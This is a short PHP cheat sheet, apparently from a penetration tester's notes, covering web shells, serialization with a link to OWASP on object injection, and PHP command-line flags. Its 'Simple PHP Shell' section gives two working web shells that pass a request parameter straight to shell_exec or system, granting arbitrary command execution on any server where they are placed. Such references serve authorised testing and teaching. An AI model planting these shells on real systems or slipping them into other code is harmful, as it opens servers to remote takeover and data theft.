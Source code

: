 ```yaml
---
category: cheat-sheet
layout: cheat-sheet
title: PHP
author: Benjamin Assadsolimani
---
```



## Simple PHP Shell

```
<?php echo shell_exec($_GET['cmd']); ?>

```

```
<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST["cmd"]);
    system($cmd);
    echo "</pre>$cmd<pre>";
    die;
}
?>
```


## Serialization

* serialize object: `serialize($value)`
* [OWASP - PHP Object Injection](https://www.owasp.org/index.php/PHP_Object_Injection)

## PHP Command Line

```
php -a                      # interactive
php -f index.php            # parse file
php -r 'echo "Hello";'      # run code
```
